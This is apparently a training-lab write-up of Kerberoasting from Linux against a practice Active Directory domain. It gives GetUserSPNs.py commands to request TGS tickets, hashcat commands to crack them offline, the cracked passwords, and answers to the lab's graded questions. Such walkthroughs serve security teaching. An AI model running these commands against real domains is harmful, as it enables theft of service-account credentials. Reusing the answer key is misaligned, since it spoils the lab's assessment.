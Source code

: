 <div align='center'>

# **Lab 13: Kerberoasting - from Linux** 

</div>

## **Kerberoasting with GetUserSPNs.py**

**Listing SPN Account**

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

![](../imgs/Lab/Lab13/1.png)

**Requesting all TGS Tickets**

Pull all TGS tickets for offline processing using the -request flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

![](../imgs/Lab/Lab13/2.png)

**Requesting a Single TGS ticket**

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

Here is the [ticket](../docs/sqldev_TGSTicket.txt) for the user sqldev

**Cracking the Ticket Offline with Hashcat**

```zsh
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt --force
```

![](../imgs/Lab/Lab13/3.png)

We can see that the password is `database!`

**Testing Authentication against a Domain Controller**

![](../imgs/Lab/Lab13/4.png)

**Question:** Retrieve the TGS ticket for the SAPService account. Crack the ticket offline and submit the password as your answer.

- Requesting a Single TGS ticket

```zsh
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user SAPService -outputfile sapservice_tgs
```

We get the [ticket](../docs/sapservice_TGSTicket.txt) for the user SAPService

- Cracking the Ticket

```zsh
hashcat -m 13100 sapservice_tgs /usr/share/wordlists/rockyou.txt --force
```

![](../imgs/Lab/Lab13/5.png)

We can see that the password is `!SapperFi2`

- **Answer:** !SapperFi2

![](../imgs/Lab/Lab13/6.png)

**Question:** What powerful local group on the Domain Controller is the SAPService user a member of?

![](../imgs/Lab/Lab13/7.png)

- **Answer:** Account Operators
